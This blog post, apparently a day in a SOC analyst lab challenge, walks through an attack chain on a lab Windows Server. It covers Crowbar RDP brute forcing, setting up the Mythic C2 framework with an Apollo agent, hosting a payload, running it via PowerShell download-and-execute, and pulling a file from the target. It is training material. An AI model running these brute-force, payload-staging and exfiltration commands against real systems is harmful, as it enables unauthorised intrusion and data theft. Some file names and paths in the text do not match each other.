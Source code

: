 +++ 
draft = false
date = 2025-09-13T18:15:20+01:00
title = "Mythic Agent Setup Tutorial, Day 21"
description = "SOC Analyst Challenge, Day 21 "
slug = "SOC Analyst Challenge, Day 21"
authors = "Seclice"
tags = ["SOC", "cybersecurity", "SOC Analyst", "ELK", "challenge"]
categories = ["SOC",""]
series = []
+++


## Day 21: Mythic Agent Setup Tutorial
Ressources :[MyDFIR Channel](https://www.youtube.com/@MyDFIR/)
 

### **Attack Chain: From Initial Access to Agent Execution**

#### **Phase 1: Prepare the Target (On Windows Server 2022)**
This creates a "flag" for you to exfiltrate later.
1.  Open **Command Prompt** as administrator.
2.  Create the password file:
    ```cmd
    echo secret! > C:\Users\Public\Documents\secret.txt
    ```

#### **Phase 2: Prepare the Attack (On Parrot OS or KAli)**
1.  **Create the Wordlist:**
    ```bash
    # Create a wordlist file containing the known password
    echo "ThisIsTheAdminPassword!" > wordlist.txt

    # You can add more passwords for a realistic brute-force
    echo "Password123!" >> wordlist.txt
    echo "admin" >> wordlist.txt
    echo "Administrator" >> wordlist.txt
    ```

2.  **Brute Force RDP with Crowbar:**
    *   **Fix:** The `-C` flag should be `-C` (capital C) for the wordlist file, and the `-s` Target IP address/range (in CIDR notation)
. Use the IP alone.
    ```bash
    crowbar -b rdp -s ip@Win-server/32 -u administrator -C wordlist.txt
    ```
    *   *If successful, Crowbar will find the correct password.*

3.  **Test RDP Access with xfreerdp:**
    ```bash
    xfreerdp /u:administrator /p:'ThisIsTheAdminPassword!' /v:ip@Win-server
    ```

#### **Phase 3: Set Up the C2 Infrastructure (On Mythic Server)**
1.  **Install the Apollo Agent:** [Agents](https://github.com/mythicagents)

    ```bash
    # Navigate to your Mythic directory first
    cd ~/Mythic
    ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
    ```
    *Wait for the installation to complete. Check status with `./mythic-cli status`.*

2.  **Install the HTTP C2 Profile:** [C2Profiles](https://github.com/mythicC2Profiles)
    ```bash
    ./mythic-cli install github https://github.com/MythicC2Profiles/http
    ```
    *This profile allows agents to communicate over HTTP.*

3.  **Open Firewall Ports:**
    ```bash
    # Allow HTTP (port 80) and your custom download port (9999)
    sudo ufw allow 80
    sudo ufw allow 9999
    sudo ufw reload
    ```

#### **Phase 4: Staging & Execution (on your computer)**
1.  **In the Mythic Web UI (`https://your-mythic-ip:7443`):**
    *   **Create a Payload:** Go to **Payloads > Create Payload**.
        *   **Payload Type:** `apollo`
        *   **C2 Profile:** `http`
        *   **Set the listening port to `80`** in the profile parameters.
        *   **Platform:** `Windows`
        *   **Create** and then **Download** the payload (e.g., `payload.exe`).

2.  **Host the Payload on the Mythic Server:**
    ```bash
    # download the payload, you can find the link on the payload page by clicking on the icon download ad copy link
    wget https://your-mythic-ip:7443/direct/download/781dff88-3f72-4776-b176-6c9de1163ea5 
    ```
    **move the payload to Home (on Mythic server)** so we can download it later.
    ```bash
    # Start a simple HTTP server on port 9999
    python3 -m http.server 9999
    ```

3.  **On Parrot OS (Inside your RDP Session):**
    *   After using `xfreerdp` to log into the Windows Server, open **PowerShell**.
    *   **Download and Execute the Payload:**
        ```powershell
        # Download the payload from your Mythic server's Python HTTP server
        Invoke-WebRequest -Uri "http://your-mythic-ip:9999/payload.exe" -OutFile "C:Users\Public\Downloads\payload.exe"

        # Execute the payload
        cd C:Users\Public\Downloads\
        .\payload.exe
        ```
        - Explanation:
			- & is the PowerShell call operator, used to execute commands.
			- "$env:USERPROFILE\Downloads\payload.exe" builds the full path as a string.
			- $env:USERPROFILE is an environment variable that expands to C:\Users\<your_username>.
			- The entire path is wrapped in quotes in case there are spaces in the username.

    *   **Important:** Close the RDP session but leave the payload running.

#### **Phase 5: Post-Exploitation (On Mythic Web UI)**
1.  **Check for Callbacks:** Go to **Operators > Active Connections**. You should see a new callback from the Windows Server.
2.  **Interact with the Agent:** Click **Select** next to the callback to open a command session.
3.  **Exfiltrate the Password File:**
    ```bash
    # Use the Apollo 'download' command
    download C:\Users\Public\Documents\secret.txt
    ```
4.  **Search for Files (Optional):** You can also use the `ls` and `cd` commands to browse the file system and find the `password.txt` file.

{{<mermaid>}}
flowchart TD
A["Phase 1: Prep Target<br>Create password.txt on Windows"]
B["Phase 2: Brute Force<br>Parrot OS: Crowbar & xfreerdp"]
C["Phase 3: Setup C2<br>Mythic: Install Apollo & HTTP Profile"]
D["Phase 4: Staging<br>Mythic: Host Payload<br>Parrot: Download via RDP"]
E["Phase 5: Exfiltration<br>Mythic UI: Interact & Download file"]

A --> B
B -- "RDP Access" --> D
C -- "Payload" --> D
D -- "Agent Execution" --> E
{{</mermaid>}}

This chain effectively demonstrates the core stages of a cyber attack: reconnaissance/access, deployment, command & control, and actions on objectives. 

